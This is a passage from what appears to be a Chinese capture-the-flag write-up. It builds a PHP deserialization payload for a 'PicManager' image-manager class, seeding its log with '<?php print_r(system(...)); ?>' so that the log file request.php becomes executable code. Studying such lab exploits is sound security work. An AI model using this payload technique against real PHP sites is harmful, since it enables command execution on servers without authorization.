 ```php
    fclose($fp);
  }


}

//$pic=new PicManager('./');
//$pic->gen();
```

- 构造 payload

```php
<?php
class PicManager{
  private $current_dir;
  private $whitelist=['.jpg','.png','.gif'];
  private $logfile='request.php';
  private $actions;

  public function __construct($dir){
    $this->actions=['<?php print_r(system("ls -l /var/www/html")); ?>'];
    $this->current_dir=$dir;
    if(!is_dir($dir))@mkdir($dir);
  }

  private function _log($message){
    array_push($this->actions,'['.date('y-m-d h:i:s',time()).']'.$message);
  }

  public function pics(){
    $this->_log('list pics');
    $pics=[];
    foreach(scandir($this->current_dir) as $item){
      if(in_array(substr($item,-4),$this->whitelist))
        array_push($pics,$this->current_dir."/".$item);
    }
    return $pics;
  }
  public function upload_pic(){
    $this->_log('upload pic');
    $file=$_FILES['file']['name'];
    if(!in_array(substr($file,-4),$this->whitelist)){
      $this->_log('unsafe deal:upload filename '.$file);
      return;
    }
    $newname=md5($file).substr($file,-4);
    move_uploaded_file($_FILES['file']['tmp_name'],$this->current_dir.'/'.$newname);
  }
  public function get_pic($picname){
    $this->_log('get pic');
    if(!file_exists($picname))
      return '';
    $fi=new finfo(FILEINFO_MIME_TYPE);
    $mime=$fi->file($picname);
    header('Content-Type:'.$mime);
    return file_get_contents($picname);
  }

  public function clean(){
    $this->_log('clean');
    foreach(scandir($this->current_dir) as $file){
      @unlink($this->current_dir."/".$file);
    }
```